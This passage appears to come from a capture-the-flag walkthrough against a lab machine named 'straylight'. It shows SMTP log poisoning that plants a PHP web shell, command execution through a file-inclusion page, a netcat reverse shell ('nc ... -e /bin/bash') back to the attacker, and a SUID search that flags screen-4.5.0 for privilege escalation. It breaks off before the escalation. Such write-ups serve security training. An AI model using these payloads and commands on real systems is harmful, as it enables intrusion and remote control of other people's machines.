 ## Exploitation 
### SMTP Log Poisoning

Using the above procedure we inject a web shell

```bash
root@kali:~$ nc -v 192.168.179.180 25
straylight [192.168.179.180] 25 (smtp) open
220 straylight ESMTP Postfix (Debian/GNU)
VRFY <?php echo shell_exec($_REQUEST['cmd']); ?>
501 5.1.3 Bad recipient address syntax
```

We check that the **id** command is being executed correctly.

```bash
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=id" | grep 'Illegal' | tail -n +2 | awk -F ":" '{print $NF}'
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We check that netcat is installed on the target.

```bash
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=whereis nc" | grep 'Illegal' | tail -n +2 | awk -F ":" '{print $NF}'
 /bin/nc.traditional /bin/nc /usr/share/man/man1/nc.1.gz
```

We start a netcat listener on port 433, and execute the following curl request.

```bash
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=nc 192.168.179.1 443 -e /bin/bash"
```

We have a shell with privileges of user www-data.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.180] 38922
python -c "import pty; pty.spawn('/bin/bash')"
www-data@straylight:/var/www/html/turing-bolo$ 
```

When listing the SUID binaries, screen-4.5.0 was detected, this is a vulnerable version that allows privilege escalation.

```bash
www-data@straylight:/home/turing-police$ find / -perm -u=s -type f 2>/dev/null
<uring-police$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
www-data@straylight:/home/turing-police$
```
